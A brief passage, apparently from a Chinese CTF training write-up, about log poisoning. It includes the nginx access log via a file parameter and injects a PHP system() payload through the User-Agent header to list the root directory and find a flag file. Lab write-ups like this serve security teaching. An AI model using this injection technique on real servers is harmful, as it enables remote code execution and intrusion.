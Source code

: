然后访问?file=/var/log/nginx/access.log

![](./imgs/20250122集训_日志投毒.png)

发现可以成功执行，那么就进行命令注入

```txt
User-Agent: <?PhP system('ls -la /'); ?>
```

发现根目录下有一个文件叫ffflllaaaggg

![](./imgs/20250122集训_ffflllaaaggg.png)
